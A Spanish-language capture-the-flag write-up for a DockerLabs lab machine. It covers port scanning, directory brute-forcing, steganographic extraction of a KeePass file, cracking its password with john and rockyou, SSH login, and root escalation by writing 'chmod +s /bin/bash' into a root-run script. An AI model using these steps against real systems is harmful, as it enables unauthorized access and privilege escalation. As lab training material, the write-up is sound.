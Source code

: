 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/8d3966a2-e783-4f03-83de-aa8d08de46a8)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **22/tcp (SSH ):** OpenSSH 8.6p1
2.  **80/tcp (HTTP ):** Apache httpd 2.4.52

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Y se encontró la pagina por defecto de Apache2 Debian.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d305bb93-d92f-4da2-8ba6-faa15fa4763d)

# Fase 2- Exploración

#### FeroxBuster
```python
-------------------------------------------------------------------------------
200      GET       22l      105w     5952c http://172.17.0.2/icons/ubuntu-logo.png
-------------------------------------------------------------------------------
200      GET      363l      961w    10671c http://172.17.0.2/
-------------------------------------------------------------------------------
200      GET      828l     4687w   413979c http://172.17.0.2/penguin.jpg
-------------------------------------------------------------------------------
200      GET       13l       31w      342c http://172.17.0.2/penguin.html
-------------------------------------------------------------------------------
```
Usando feroxbuster encontramos los directorios `/penguin.jpg` y `/penguin.html`.

#### /penguin.html
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/5e613943-c641-40f3-9c8e-9204887b5d9a)
Dentro de la pagina web hay una imagen de 2 pingüinos y un texto que nos dice que no hay nada interesante en la pagina del pingüino.

#### Penguin.jpg
Descargamos la imagen de los pingüinos y con la herramienta `stegseek`, le extraemos algunos datos.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/024ab24f-b2c1-4c49-844c-32f604e2f6f3)

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/d386e84e-86ce-4687-b1b7-6626a26e48fc)

Obtenemos un archivo `penguin.kdbx` con la pass `chocolate`

# Fase 3- Exploración

#### KeePass
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4578bb0f-7cce-4b01-8d44-2ffea0257b0f)

No nos deja abrir el archivo con la contraseña proporcionada. Por lo que vamos a intentar crackearla. Lo primero es convertir el archivo `penguin.kdbx` en un hash. Con el comando
```python
keepass2john penguin.kdbx > hash
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a930a4b3-ee8c-4827-9121-7814e69f4f9a)

Con Jhon encontramos la contraseña. El comando es:
```python
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```
La contraseña es password1.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/0ef5c38d-8c7d-4a3f-9621-063589e45f63)

Y entramos. Nos da el usuario `pinguino` y la contraseña `pinguinomaravilloso123`. Si probamos las credenciales: 
```python
sudo ssh pinguino@172.17.0.2
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:fq/odrh/Uyh8YwZIuZ41PSOdwys9pR2KWH9WtPbE3fg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
pinguino@172.17.0.2's password: 
Permission denied, please try again.
pinguino@172.17.0.2's password:
```
Nos tira error, pero si miramos bien, podemos ver otro usuario arriba a la izquierda en la imagen. El usuario `penguin`.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/edebc1e7-30ff-46bc-a5e6-afaea0471c76)

Lo probamos y estamos dentro.

# Fase 4- Privilegios

#### sudo -l
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/7a98cdb1-b1f5-4e27-918c-8b7c8c0b8c06)

Despues de hacer el tratamiento de la TTY, no nos deja hacer el comando `sudo -l`, por ende utilizamos el comando`find / -perm -4000 -user root 2>/dev/null` para buscar que binarios tenemos para ejecutar como usuario `root`. No hay nada raro.

#### Buscar y buscar...
Al realizar un `ls` vi que en mi directorio había 2 archivos uno `.txt` y otro un script en bash `.sh`
Pero no había nada muy interesante.
```python
penguin@44698f69f3a3:~$ ls
archivo.txt  script.sh
penguin@44698f69f3a3:~$ cat archivo.txt 
pinguino no hackeable
penguin@44698f69f3a3:~$ cat script.sh 
#!/bin/bash

echo 'pinguino no hackeable' > archivo.txt
penguin@44698f69f3a3:~$ 
```

#### pspy64
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3acfaf70-201c-4376-b152-9ce9b767f9b3)
Decidí en mi maquina atacante compartirle el programa `pspy64` que se utiliza para ver que procesos se están llevando acabo en el sistema. El comando que utilice fue `python3 -m http.server 80` para compartirme el archivo, y en la maquina victima utilice `wget 172.17.0.1/pspy64`.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/fe1810b3-1b20-4d7b-8a95-eaaaeb2b4f0b)
El resultado fue que se esta ejecutando muchas veces el archivo script.sh como el usuario root. Y como tenemos permisos de escribir ese archivo vamos a modificarlo.
Lo modificamos así: 
```shell
#!/bin/bash
chmod +s /bin/bash
echo 'pinguino no hackeable' > archivo.txt
```
Lo que hace está línea es otorgar permisos SUID a la `/bin/bash`, comprobamos que los tiene:
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/38a527b6-fe9d-42c2-8371-1a961a6433a1)

Una vez que la `/bin/bash` tiene permisos SUID, ejecutaremos `/bin/bash -p` y listo ya somos usuario `root`!.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a6db0cc6-5fe1-455f-9108-1a8f499082cc)


